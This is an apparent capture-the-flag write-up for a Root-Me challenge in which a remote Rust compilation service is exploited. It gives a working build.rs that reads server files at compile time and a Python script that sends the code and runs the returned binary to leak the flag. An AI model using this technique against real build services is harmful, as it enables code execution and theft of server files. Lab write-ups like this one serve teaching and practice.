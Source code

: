 # Build And Drustroy - Misc

### Challenge description

I love rust because it's secure and fast. So I want people to do MOAR rust.

That's why I made a microservice to allow fast and easy remote code compilation.

Send my your code, I'll compile it, and I know for sure I'm safe!

```bash
curl -sSk -X POST -H 'Content-Type: application/json' https://day4.challenges.xmas.root-me.org/remote-build -d '{"src/main.rs":"fn main() { println!(\"Hello, world!\"); }"}' --output binary
file binary # binary: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, ...
```

### Challenge code

According to the sources and the example provided, we are given a web service that accept rust code and return a binary remotly compiled.

The web service accept json payloads on the `POST /remote-build` route:

```rust
        (&Method::POST, "/remote-build") => {
            if !is_content_type_json(req.headers()) {
                let mut response = Response::new(full("Content-Type must be application/json"));
                *response.status_mut() = StatusCode::UNSUPPORTED_MEDIA_TYPE;
                return Ok(response);
            }

            let b: Bytes = req.collect().await?.to_bytes();
            let s: Value = match serde_json::from_slice(&b) {
                Ok(json) => json,
                Err(e) => {
                    eprintln!("JSON parsing error: {:?}", e);
                    let mut response = Response::new(full("Error parsing JSON"));
                    *response.status_mut() = StatusCode::BAD_REQUEST;
                    return Ok(response);
                }
            };

```

Then, the file structure describe in the payload and the files contents are written locally:

```rust
                for (filename, content) in &map {
                    let content_str = match content.as_str() {
                        Some(s) => s,
                        None => {
                            eprintln!("Content for file {} is not a string", filename);
                            let mut response = Response::new(full("Invalid content type for file"));
                            *response.status_mut() = StatusCode::BAD_REQUEST;
                            return Ok(response);
                        }
                    };

                    let file_path = temp_dir.path().join(filename);
                    if let Some(parent) = file_path.parent() {
                        if let Err(e) = fs::create_dir_all(parent).await {
                            eprintln!("Failed to create directories for {}: {:?}", filename, e);
                            let mut response = Response::new(full("Internal Server Error"));
                            *response.status_mut() = StatusCode::INTERNAL_SERVER_ERROR;
                            return Ok(response);
                        }
                    }
                    if let Err(e) = fs::write(&file_path, content_str.as_bytes()).await {
                        eprintln!("Failed to write file {}: {:?}", filename, e);
                        let mut response = Response::new(full("Internal Server Error"));
                        *response.status_mut() = StatusCode::INTERNAL_SERVER_ERROR;
                        return Ok(response);
                    }
                }
```

Finally, the rust code is compiled and return to the client as binary:

```rust
                let cargo_toml = r#"
[package]
name = "temp_build"
version = "0.1.0"
edition = "2021"

[dependencies]
"#;

                let build_output = match Command::new("cargo")
                    .args(&["build", "--release"])
                    .current_dir(temp_dir.path())
                    .output()
                    .await
                {
                    Ok(output) => output,
                    Err(e) => {
                        eprintln!("Failed to execute cargo build: {:?}", e);
                        let mut response = Response::new(full("Internal Server Error"));
                        *response.status_mut() = StatusCode::INTERNAL_SERVER_ERROR;
                        return Ok(response);
                    }
                };

                let binary_name = if cfg!(windows) {
                    "temp_build.exe"
                } else {
                    "temp_build"
                };

                let binary_path = temp_dir
                    .path()
                    .join("target")
                    .join("release")
                    .join(binary_name);

                let binary = match fs::read(&binary_path).await {
                    Ok(data) => data,
                    Err(e) => {
                        eprintln!("Failed to read binary: {:?}", e);
                        let mut response = Response::new(full("Internal Server Error"));
                        *response.status_mut() = StatusCode::INTERNAL_SERVER_ERROR;
                        return Ok(response);
                    }
                };

                let response = Response::builder()
                    .status(StatusCode::OK)
                    .header("Content-Type", "application/octet-stream")
                    .header("Content-Disposition", "attachment; filename=\"binary\"")
                    .body(full(binary))
                    .unwrap();
```

### (Unintended) Solution

As always, our goal is to retrieve the flag. In addition to the source code challenge, we are given a Dockerfile and a docker-compose.yml used to spawn the web service:

```yaml
services:
  chall:
    build: .
    ports:
      - 3000:3000
    volumes:
      - ./flag.txt:/flag/randomflaglolilolbigbisous.txt
      - /tmp # required for build & temp dirs
    restart: unless-stopped
    read_only: true
```

At this point there's two kind of people.

Regular people: "Ok, so the flag is located in `/flag` in a file named `randomflaglolilolbigbisous.txt`, let's flag with a oneliner exploit using builtins macros."

Me: "Ok, the flag file name is random, i need to find a RCE."

Fortunately, `cargo`, the rust swiss army knife, used to remotly compile the binary come with the ability to execute code at **compile time** using [build scripts](https://doc.rust-lang.org/cargo/reference/build-scripts.html). So we have our way to execute arbitrary code on the server. We can write a `build.rs` file that list files in the `/flag` directory and hardcoding their content into a `main.rs` that will be compiled and return to us as binary:

```rust
use std::fs;
use std::io;
use std::io::prelude::*;


fn main() -> io::Result<()> {
    let directory = "/tmp";
    let mut body = String::new();
    let entries = fs::read_dir(directory)?;
    for entry in entries {
        let path = entry?.path();
        if !path.is_dir() {
            let path_str = path.as_os_str().to_string_lossy();
            body.push_str(&format!("println!(\"File {path} contains: \")", path=&path_str));
            body.push_str(";\n\t");

            let mut content = fs::read_to_string(path)?;
            content = content.strip_suffix("\r\n").or(content.strip_suffix("\n")).unwrap_or(&content).to_string();
            content = content.replace("{", "{{").replace("}", "}}");
            body.push_str(&format!("println!(\"{content}\")", content=&content));
            body.push_str(";\n\t");
        }

    }
    println!("{}", format!("def main() {{
        {body}
    }}", body=body));

    let mut main_rs = fs::File::create("src/main.rs")?;
    main_rs.write_all(format!("fn main() {{
        {body}
    }}", body=body).as_bytes())?;


    Ok(())
}
```

We also need a "dummy" `main.rs`, otherwise `cargo` won't compile anything. Let's try it locally:

```bash
$ echo "RM{Th1s_i5_4_fak3_fl4g}" > /tmp/flag.txt
$ cat src/main.rs 
fn main() {
    println!("Hello, World!");
}
$ cargo run
   Compiling write_up v0.1.0 
    Finished dev [unoptimized + debuginfo] target(s) in 0.27s
     Running `target/debug/write_up`
File /tmp/flag.txt contains: 
RM{Th1s_i5_4_fak3_fl4g}
$ cat src/main.rs 
fn main() {
        println!("File /tmp/flag.txt contains: ");
	println!("RM{{Th1s_i5_4_fak3_fl4g}}");
	
    }%
```

It works ! Now remotly:

```python
import requests
import subprocess

payload = {"build.rs": open("build.rs").read(), "src/main.rs": open("src/main.rs").read()}

response = requests.post("https://day4.challenges.xmas.root-me.org/remote-build", json=payload, verify=False)

with open("binary", "wb") as f:
    f.write(response.content)

process = subprocess.Popen(["chmod", "+x", "binary"])
process.communicate()
process = subprocess.Popen(["./binary"])
out, _ = process.communicate()
print(out)
```

And we get the flag ! :
```
$ python exploit.py
File /flag/randomflaglolilolbigbisous.txt contains: 
OffenSkillSaysHi2024RustAbuse
```

Ok... So i guess the file name wasn't random and i used a way overkill exploit. But at least it was fun :D

### (Intended) solution

Using the macro `include_str` yield to the same result.
